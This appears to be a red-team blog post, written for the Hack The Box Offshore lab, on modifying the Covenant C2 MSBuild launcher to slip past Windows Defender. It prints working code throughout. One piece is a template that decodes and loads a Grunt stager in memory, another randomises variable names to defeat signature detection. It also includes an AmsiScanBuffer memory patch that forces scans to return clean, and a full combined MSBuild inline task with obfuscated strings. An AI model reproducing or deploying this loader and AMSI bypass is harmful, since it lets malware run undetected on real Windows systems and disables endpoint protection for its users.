




## Summary

I've been interested in exploring offensive .NET tooling for a while now, so I decided to give the [Covenant C2 Framework](https://github.com/cobbr/Covenant) by [Cobbr](https://cobbr.io/) a run for its money within the [Hack The Box Pro Lab: Offshore](https://help.hackthebox.eu/b2b-professional-labs/offshore-summary)! The lab runs (kind-of) recently updated versions of Windows Defender, meaning that the default payloads generated by Covenant are detected. This post covers the steps I took to evade signature detection and bypass AMSI to get grunts on boxes and executing undetected in preparation for tackling Offshore.

If you can't be bothered reading this whole post, or you'd just like to see my code, here's the commit to my fork of Covenant: https://github.com/Apr4h/Covenant/commit/c59d00de94f7b0c192b3262a902da74083929ad1

This post will detail the following:

- [A quick overview of Covenant](#Covenant-Overview)
- [Covenant's msbuild Launcher](#Covenant's-msbuild-Launcher)
- [Evading Signature Detection](#Evading-Signature-Detection)
- [A quick overview of AMSI](#AMSI-Overview)
- [Bypassing AMSI](#Bypassing-AMSI)
- [Adding the bypass to Covenant](#Adding-the-bypass-to-Covenant)

This post **won't** cover:
- Spoilers from the Offshore lab
- Detailed usage of Covenant / grunts
- Setting up custom Covenant C2

## Covenant Overview

Covenant is a .NET command and control framework that aims to highlight the attack surface of .NET, make the use of offensive .NET tradecraft easier, and serve as a collaborative command and control platform for red teamers.

The user interface is a [Blazor Server](https://dotnet.microsoft.com/apps/aspnet/web-apps/blazor) application, and its implants are either .NET Framework or .NET Core implants that are dynamically generated using the [Roslyn API](https://github.com/dotnet/roslyn).

[Cobbr's post here](https://cobbr.io/Covenant.html) is the best place to begin exploring Covenant. At the time of wrtiting, [the dev branch of Covenant](https://github.com/cobbr/Covenant/tree/dev) has lots of additional useful functionality and [the wiki](https://github.com/cobbr/Covenant/wiki) does a good job of explaining setup and basic usage. 

The image below shows the 'dashboard' which provides an overview of how Covenant manages its Grunts, Listeners and tracks the details of tasks that operators have sent to grunts. 



Individual grunts are managed and tasked through a nice graphical 'Task' interface, or a web-based terminal emulator that multiple operators can interact with concurrently.


There's plenty more I could go into about Covenant here, and while I think it still has a way to go in terms of its capabilities as a C2 framework, I really like its interface and approach to employing the .NET framework offensively. 


## Covenant's msbuild Launcher
Of course an open-source red-teaming framework is going to be signatured by antivirus... [Cobbr has mentioned](https://github.com/cobbr/Covenant/issues/261) a few times that evasion is left up to individual users/teams. I took my own (pretty simple) approach to evading signature detection which worked well-enough for the Offshore labs at the time. 

Covenant has multiple [multiple launcher options](https://github.com/cobbr/Covenant/tree/master/Covenant/Models/Launchers) which generate and compile (where necessary) code for executing a stager that will download a Grunt payload from the C2 server to be executed in-memory via `System.Reflection.Assembly.Load()` function. In most cases, getting a launcher onto the target and executing it is the first step in getting a grunt to execute on a target.

For Offshore, I decided to roll with the MSBuild launcher. [This blog post](https://www.hackingarticles.in/windows-exploitation-msbuild/) does a great job of explaining how `msbuild.exe` can be used to execute .NET malware, while also serving as an [applocker bypass](https://www.hackingarticles.in/windows-applocker-policy-a-beginners-guide/)!

The msbuild launcher generates an [XML project file](https://docs.microsoft.com/en-us/visualstudio/msbuild/msbuild-project-file-schema-reference?view=vs-2019) that is passed as a command-line argument to `msbuild.exe` and contains a [`<Task>`](https://docs.microsoft.com/en-us/visualstudio/msbuild/msbuild-inline-tasks) (inline-task) element that includes executable C# code. 

```xml
private static string XMLTemplate =
@"<Project ToolsVersion=""4.0"" xmlns=""http://schemas.microsoft.com/developer/msbuild/2003"">
  <Target Name=""{{TARGET_NAME}}"">
    <{{TASK_NAME}}>
    </{{TASK_NAME}}>
  </Target>
  <UsingTask TaskName=""{{TASK_NAME}}"" TaskFactory=""CodeTaskFactory"" AssemblyFile=""C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll"" >
    <ParameterGroup/>
    <Task>
      <Code Type=""Fragment"" Language=""cs"">
        <![CDATA[
            var oms = new System.IO.MemoryStream();
            var ds = new System.IO.Compression.DeflateStream(new System.IO.MemoryStream(System.Convert.FromBase64String(""{{GRUNT_IL_BYTE_STRING}}"")), System.IO.Compression.CompressionMode.Decompress);
            var by = new byte[1024];
            var r = ds.Read(by, 0, 1024);
            while (r > 0)
            {
                oms.Write(by, 0, r);
                r = ds.Read(by, 0, 1024);
            }
            System.Reflection.Assembly.Load(oms.ToArray()).EntryPoint.Invoke(0, new object[] { new string[]{ } });
        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>";
```

This little chunck of C# serves a simple purpose:

1. Decode a base64-encoded string (the grunt stager) embedded in the task when the payload is generated
2. Decompress the resultant data and write it to a `MemoryStream`
3. Convert the `MemoryStream` to a byte array that can be loaded as a .NET assembly into the current appdomain via [`System.Reflection.Assembly.Load()`](https://docs.microsoft.com/en-us/dotnet/api/system.reflection.assembly.load)
4. Execute the loaded assembly from its entrypoint via the newly-loaded assembly's `Entrypoint.Invoke()` function

From there, the executing stager assembly should begin establishing an encrypted C2 channel with the Covenant listener before receiving the second-stage payload and execting the grunt assembly in memory (likely via another call to `Assembly.Load()`).

## Evading Signature Detection

Before I start dropping this XML payload all over boxes in the lab, I want to know if I'm going to get schwacked by defender. 

This awesome tool [DefenderCheck](https://github.com/matterpreter/DefenderCheck) by [matterpreter](https://twitter.com/matterpreter) helps to quickly identify exactly which bytes in a file are being detected by Windows Defender, and even tells you exactly which signature is being detected!

I generated an MSBuild payload and ran DefenderCheck against it to identify exactly what was being detected. Unsurprisingly, the C# section of the file which loads and the decoded/decompressed payload is being detected.  



To start working on a simple signature evasion, I went back to the [msbuild launcher's source code](https://github.com/cobbr/Covenant/blob/master/Covenant/Models/Launchers/MSBuildLauncher.cs). I noticed that I could leverage the existing string replacement technique within the launcher model to add some additional obfuscation to the generated payload. The code below shows how the launcher is modified to include user-defined parameters for each launcher before it's generated. 

```cs
// Constructor
public MSBuildLauncher()
{
    this.Name = "MSBuild";
    this.Type = LauncherType.MSBuild;
    this.Description = "Uses msbuild.exe to launch a Grunt using an in-line task.";
    this.OutputKind = OutputKind.WindowsApplication;
    this.CompressStager = true;
}

public override string GetLauncher(string StagerCode, byte[] StagerAssembly, Grunt grunt, ImplantTemplate template)
{
    this.StagerCode = StagerCode;
    this.Base64ILByteString = Convert.ToBase64String(StagerAssembly);
    this.DiskCode = XMLTemplate.Replace("{{GRUNT_IL_BYTE_STRING}}", this.Base64ILByteString);
    this.DiskCode = DiskCode.Replace("{{TARGET_NAME}}", this.TargetName);
    this.DiskCode = DiskCode.Replace("{{TASK_NAME}}", this.TaskName);

    ...
```

By adding some additional string replacements, I can include randomly-generated variable names to the C# code. This also meant adding a little random string generation function to the launcher. While pretty simple, it should hopefully be enough to avoid getting picked up by defender.

**Random string generator**
```cs
private string RandomString()
{
    Random random = new Random();
    var stringBuilder = new StringBuilder(5);

    for (int i = 0; i < 5; i++)
    {
        var @char = (char)random.Next('a', 'a' + 26);
        stringBuilder.Append(@char);
    }
    return stringBuilder.ToString();
}
```

**Additional string replacements**
```cs
public MSBuildLauncher()
{
    this.Description = "Uses msbuild.exe to launch a Grunt using an in-line task.";
    this.OutputKind = OutputKind.WindowsApplication;
    this.CompressStager = true;

    // Generate random strings for xml variable names
    this.random_var_outputMemoryStream = RandomString();
    this.random_var_byteArray = RandomString();
    this.random_var_read = RandomString();
    this.random_var_assemblyBuffer = RandomString();
    this.random_var_deflateStream = RandomString();
}

public override string GetLauncher(string StagerCode, byte[] StagerAssembly, Grunt grunt, ImplantTemplate template)
    this.DiskCode = DiskCode.Replace("{{TARGET_NAME}}", this.TargetName);
    this.DiskCode = DiskCode.Replace("{{TASK_NAME}}", this.TaskName);

    // Replacements for obfuscation
    this.DiskCode = DiskCode.Replace("{{MEMORY_STREAM}}", this.random_var_outputMemoryStream);
    this.DiskCode = DiskCode.Replace("{{DEFLATE_STREAM}}", this.random_var_deflateStream);
    this.DiskCode = DiskCode.Replace("{{BYTE_ARRAY}}", this.random_var_byteArray);
    this.DiskCode = DiskCode.Replace("{{READ}}", this.random_var_read);
    this.DiskCode = DiskCode.Replace("{{ASSEMBLY_BUFFER}}", this.random_var_assemblyBuffer);

    ...
```

And now my msbuild launcher payloads are no-longer detected!


The next problem is that attempting to execute the launcher via `msbuild.exe` still fails, with the error message: **"Operation did not complete successfully because the file contains a virus or potentially unwanted software."**. This is because of the [Antimalware Scan Interface (AMSI)](https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal).



## AMSI Overview

This won't be a detailed explanation of AMSI, but as per Microsoft's docs:

*"The Windows Antimalware Scan Interface (AMSI) is a versatile interface standard that allows your applications and services to integrate with any antimalware product that's present on a machine. AMSI provides enhanced malware protection for your end-users and their data, applications, and workloads."*

*The AMSI feature is integrated into these components of Windows 10.*

- *User Account Control, or UAC (elevation of EXE, COM, MSI, or ActiveX installation)*
- *PowerShell (scripts, interactive use, and dynamic code evaluation)*
- *Windows Script Host (wscript.exe and cscript.exe)*
- *JavaScript and VBScript*
- *Office VBA macros*

One of the reasons so much effort goes into executing malware only in-memory is to avoid the signature-based detection that occurs when a file is written to disk, and simple obfuscation techniques like what I've just demonstrated above are enough to facilitate the loading and execution of malware. This is where AMSI comes in... 


At the point where the launcher is attempting to load a new assembly into the existing appdomain, (`Assembly.Load()`) the Windows AMSI APIs are called to request that the contents of the new assembly are scanned. Because the grunt stager currently exists as a byte array, [AmsiScanBuffer()](https://docs.microsoft.com/en-us/windows/win32/api/amsi/nf-amsi-amsiscanbuffer) from `amsi.dll` is being called and supplied with the grunt stager assembly as the buffer to be scanned for malware.

**AmsiScanBuffer()**
```cpp
HRESULT AmsiScanBuffer(
  HAMSICONTEXT amsiContext,
  PVOID        buffer,          // Buffer to be scanned for malware
  ULONG        length,          // Size of the buffer to be scanned (in bytes)
  LPCWSTR      contentName,
  HAMSISESSION amsiSession,
  AMSI_RESULT  *result          // Output result of malware scan
);
```

**AMSI_RESULT**
```cpp
typedef enum AMSI_RESULT {
  AMSI_RESULT_CLEAN,                    // Known good
  AMSI_RESULT_NOT_DETECTED,             // Clean based on current signatures
  AMSI_RESULT_BLOCKED_BY_ADMIN_START,
  AMSI_RESULT_BLOCKED_BY_ADMIN_END,
  AMSI_RESULT_DETECTED                  // Malware detected
} ;
```

## Bypassing AMSI

At this point, there have been a number of different methods discovered for bypassing AMSI scanning. I'll be using a well-documented technique that involves locating and patching `amsi.dll` within the current process, so that the `AmsiScanBuffer()` function always returns a result of `AMSI_RESULT_CLEAN` - regardless of what data is supplied to the function. [Rasta Mouse](https://rastamouse.me/) has done a great writeup of his work on this bypass [here](https://rastamouse.me/blog/asb-bypass-pt3/).

I leveraged [Rasta Mouse's code](https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/master/ASBBypass/Program.cs) to implement this `AmsiScanBuffer()` patch in Covenant's msbuild launcher.

Here is the part of Rasta Mouse's code that performs the patch, with some explanatory comments added - it's surprisingly easy!

```cs
// https://twitter.com/_xpn_/status/1170852932650262530
// Patches for x86/x64 versions - set AMSI_RESULT_CLEAN 
static byte[] x64 = new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };
static byte[] x86 = new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC2, 0x18, 0x00 };

public static void Bypass()
{
    if (is64Bit())
        PatchAmsi(x64);
    else
        PatchAmsi(x86);
}

private static void PatchAmsi(byte[] patch)
{
    try
    {
        // Locate the base address of the target function - AmsiScanBuffer()
        var lib = Win32.LoadLibrary("amsi.dll");
        var addr = Win32.GetProcAddress(lib, "AmsiScanBuffer");

        // Change the permissions of the memory section containing the target
        // function so that it can be overwritten. 0x40 = PAGE_EXECUTE_READWRITE
        uint oldProtect;
        Win32.VirtualProtect(addr, (UIntPtr)patch.Length, 0x40, out oldProtect);

        // Apply the patch by copying the bytes over the top of the start of the
        // target function
        Marshal.Copy(patch, 0, addr, patch.Length);
    }
```

## Adding the bypass to Covenant

Adding this code to the msbuild launcher model took a bit of tweaking. Here are some issues that had to be overcome to get the bypass working in the msbuild launcher:

1. The current inline-task uses `<Code Type="Fragment">`, meaning that any code inside that tag is executed as a single function. I either need to find a way to add additional functions to the code, or inline the whole bypass
2. I need to leverage [P/Invoke](https://docs.microsoft.com/en-us/dotnet/standard/native-interop/pinvoke) to call Win32 APIs (`LoadLibrary`, `GetProcAddress`, `VirtualProtect`), meaning I need to be able to import DLLs. To do this, I need to be able to import the `System.Runtime.InteropServices` namespace.

I solved these problems by changing the `<Code Type="Fragment">` to `<Code Type="Class">`. [as per the Microsoft Docs](https://docs.microsoft.com/en-us/visualstudio/msbuild/msbuild-inline-tasks?view=vs-2019#code-element) : *"If the value of Type is Class, then the Code element contains code for a class that derives from the ITask interface."* Any code inside those tags is now executed within a class, rather than a function - so that class can contain its own functions. It also means I can include my own `using` statements and import Win32 APIs.

The only other thing to do was obfuscate some of the function and variable names as I had already previously done.

**Here's the updated launcher code - including obfuscated strings for the AMSI bypass**
```cs
public MSBuildLauncher()
{
    this.Description = "Uses msbuild.exe to launch a Grunt using an in-line task.";
    this.OutputKind = OutputKind.WindowsApplication;
    this.CompressStager = true;

    // Generate random strings for xml variable names
    this.random_var_patchAmsi = RandomString();
    this.random_var_amsi = RandomString();
    this.random_var_amsi_dll = new List<string>(new string[] { RandomString(), RandomString()});
    this.random_var_amsiScanBuffer = new List<string>(new string[] { RandomString(), RandomString(), RandomString() });
    this.random_var_outputMemoryStream = RandomString();
    this.random_var_byteArray = RandomString();
    this.random_var_read = RandomString();
    this.random_var_lib = RandomString();
    this.random_var_assemblyBuffer = RandomString();
    this.random_var_deflateStream = RandomString();
}

public override string GetLauncher(string StagerCode, byte[] StagerAssembly, Grunt grunt, ImplantTemplate template)
    this.DiskCode = DiskCode.Replace("{{TARGET_NAME}}", this.TargetName);
    this.DiskCode = DiskCode.Replace("{{TASK_NAME}}", this.TaskName);

    // Replacements for obfuscation
    this.DiskCode = DiskCode.Replace("{{PATCH_AMSI}}", this.random_var_patchAmsi);
    this.DiskCode = DiskCode.Replace("{{AMSI}}", this.random_var_amsi);
    this.DiskCode = DiskCode.Replace("{{MEMORY_STREAM}}", this.random_var_outputMemoryStream);
    this.DiskCode = DiskCode.Replace("{{DEFLATE_STREAM}}", this.random_var_deflateStream);
    this.DiskCode = DiskCode.Replace("{{BYTE_ARRAY}}", this.random_var_byteArray);
    this.DiskCode = DiskCode.Replace("{{READ}}", this.random_var_read);
    this.DiskCode = DiskCode.Replace("{{LIB}}", this.random_var_lib);
    this.DiskCode = DiskCode.Replace("{{AMSI_DLL_0}}", this.random_var_amsi_dll[0]);
    this.DiskCode = DiskCode.Replace("{{AMSI_DLL_1}}", this.random_var_amsi_dll[1]);
    this.DiskCode = DiskCode.Replace("{{AMSI_SCAN_BUFF_0}}", this.random_var_amsiScanBuffer[0]);
    this.DiskCode = DiskCode.Replace("{{AMSI_SCAN_BUFF_1}}", this.random_var_amsiScanBuffer[1]);
    this.DiskCode = DiskCode.Replace("{{AMSI_SCAN_BUFF_2}}", this.random_var_amsiScanBuffer[2]);
    this.DiskCode = DiskCode.Replace("{{ASSEMBLY_BUFFER}}", this.random_var_assemblyBuffer);

    ...
```

**And here's the updated inline task - including the bypass and obfuscation**
```xml
        private static string XMLTemplate =
@"<Project ToolsVersion=""4.0"" xmlns=""http://schemas.microsoft.com/developer/msbuild/2003"">
  <Target Name=""{{TARGET_NAME}}"">
    <{{TASK_NAME}}>
    </{{TASK_NAME}}>
  </Target>
  <UsingTask TaskName=""{{TASK_NAME}}"" TaskFactory=""CodeTaskFactory"" AssemblyFile=""C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll"" >
    <ParameterGroup/>
    <Task>
      <Code Type=""Class"" Language=""cs"">
        <![CDATA[
        using System.Collections;
        using System.Collections.Generic;
        using System.Text;
        using System.Linq;
        using System.IO;
        using System;
        using System.Runtime.InteropServices;
        using Microsoft.Build.Framework;
        using Microsoft.Build.Utilities;
        public class {{TASK_NAME}} :  Task, ITask
        { 
            [DllImport(""kernel32"")]
			public static extern IntPtr GetProcAddress(IntPtr hmod, string pn);
			[DllImport(""kernel32"")]
			public static extern IntPtr LoadLibrary(string n);
			[DllImport(""kernel32"")]
            public static extern bool VirtualProtect(IntPtr lpaddr, UIntPtr dws, uint flnp, out uint lpflop);
            public override bool Execute()
            {
                var {{MEMORY_STREAM}} = new System.IO.MemoryStream();
                var {{DEFLATE_STREAM}} = new System.IO.Compression.DeflateStream(new System.IO.MemoryStream(System.Convert.FromBase64String(""{{GRUNT_IL_BYTE_STRING}}"")), System.IO.Compression.CompressionMode.Decompress);
                var {{BYTE_ARRAY}} = new byte[1024];
                var {{READ}} = {{DEFLATE_STREAM}}.Read({{BYTE_ARRAY}}, 0, 1024);
            
                while ({{READ}} > 0)
                {
                    {{MEMORY_STREAM}}.Write({{BYTE_ARRAY}}, 0, {{READ}});
                    {{READ}} = {{DEFLATE_STREAM}}.Read({{BYTE_ARRAY}}, 0, 1024);
                }
			
                Bypass();
                var {{ASSEMBLY_BUFFER}} = System.Reflection.Assembly.Load({{MEMORY_STREAM}}.ToArray());
                var o = new object[] { new string[]{ } };
	            {{ASSEMBLY_BUFFER}}.EntryPoint.Invoke(0, o);
                return true;
            }
            
			public static void Bypass()
			{
                byte[] x64 = new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };
			    byte[] x86 = new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC2, 0x18, 0x00 };
				if (is64Bit())
					{{PATCH_AMSI}}(x64);
				else
					{{PATCH_AMSI}}(x86);
			}
			private static void {{PATCH_AMSI}}(byte[] patch)
			{
				try
				{
					var {{AMSI_DLL_0}} = ""ams"";
					var {{AMSI_DLL_1}} = ""i.dll"";
					var {{LIB}} = LoadLibrary({{AMSI_DLL_0}} + {{AMSI_DLL_1}});
					var {{AMSI_SCAN_BUFF_0}} = ""Ams"";
					var {{AMSI_SCAN_BUFF_1}} = ""iSca"";
					var {{AMSI_SCAN_BUFF_2}} = ""nBuffer"";
					var addr = GetProcAddress({{LIB}}, {{AMSI_SCAN_BUFF_0}} + {{AMSI_SCAN_BUFF_1}} + {{AMSI_SCAN_BUFF_2}});
					uint oldProtect;
					VirtualProtect(addr, (UIntPtr)patch.Length, 0x40, out oldProtect);
					Marshal.Copy(patch, 0, addr, patch.Length);
				}
				catch (Exception e)
				{
					Console.WriteLine("" [x] {0}"", e.Message);
					Console.WriteLine("" [x] {0}"", e.InnerException);
				}
			}
			private static bool is64Bit()
			{
				bool is64Bit = true;
				if (IntPtr.Size == 4)
					is64Bit = false;
				return is64Bit;
			}
        }
        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>"
```

Now, DefenderCheck reports a clean binary, and AMSI isn't catching the decompressed grunt stager assembly as it's about to be loaded. Success!



And that's it! You can see the full result of these changes in [this commit](https://github.com/Apr4h/Covenant/commit/c59d00de94f7b0c192b3262a902da74083929ad1) to my fork of Covenant. I've also been working on adding a process migration task to Covenant, which I'll write up in a separate post soon :)